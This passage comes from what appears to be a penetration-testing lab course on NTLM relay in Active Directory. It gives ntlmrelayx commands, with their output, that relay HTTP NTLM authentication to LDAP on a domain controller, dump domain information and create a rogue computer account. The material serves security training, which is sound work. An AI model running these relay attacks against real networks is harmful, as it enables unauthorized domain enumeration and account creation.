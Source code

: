 Nevertheless, if we keep `ntlmrelayx` (and `Responder`) running, we will eventually receive `HTTP NTLM` authentication. `HTTP NTLM` authentication can be relayed over `LDAP` since `HTTP` does not support `session signing` and therefore, the DC does not/cannot request it. `ntlmrelayx` will relay the `HTTP NTLM` authentication over `LDAP` on the DC (which is another type of `cross-protocol relay`) and dump the domain information, saving it in the directory “ldap_dump”:

```
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump

<SNIP>
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/PETER SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Once `ntlmrelayx` finishes dumping the domain information, we can then analyze the data gathered to move forward in our engagements:

```
ls ldap_dump/

domain_computers_by_os.html  domain_computers.html  domain_groups.grep  domain_groups.json  domain_policy.html  domain_trusts.grep  domain_trusts.json          domain_users.grep  domain_users.json
domain_computers.grep        domain_computers.json  domain_groups.html  domain_policy.grep  domain_policy.json  domain_trusts.html  domain_users_by_group.html  domain_users.html
```

---

### Computer Accounts Creation

In Active Directory, a computer/machine account is an object similar to a domain user account but with additional properties. Computer accounts allow querying the domain and performing actions, similar to user accounts; it is possible to create a computer account in AD environments where the domain-level attribute `ms-DS-MachineAccountQuota` is set to 1 or more (by default, it is set to 10), and where the computer account creation right has not been modified for regular domain users.

If we relay the `NTLM` authentication of a domain user over to the DC and establish an authenticated session, we can use `ntlmrelayx`’s `--add-computer` option to create computer accounts; this option takes two optional arguments, computer name and password, for example, `--add-computer 'NAME' 'PASSWORD'`. If we omit any of the two optional arguments, `ntlmrelayx` will provide randomly generated values. We will keep the `SMB` and `HTTP` servers of `Responder` `Off` and run `ntlmrelayx` to create the computer account `plaintext$` with a randomly generated password:

```
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
<SNIP>

[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as INLANEFREIGHT/PETER SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Adding a machine account to the domain requires TLS, but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] Attempting to create computer in: CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] Adding new computer with username: plaintext$ and password: o6@ekK5#rlw2rAe result: OK
```
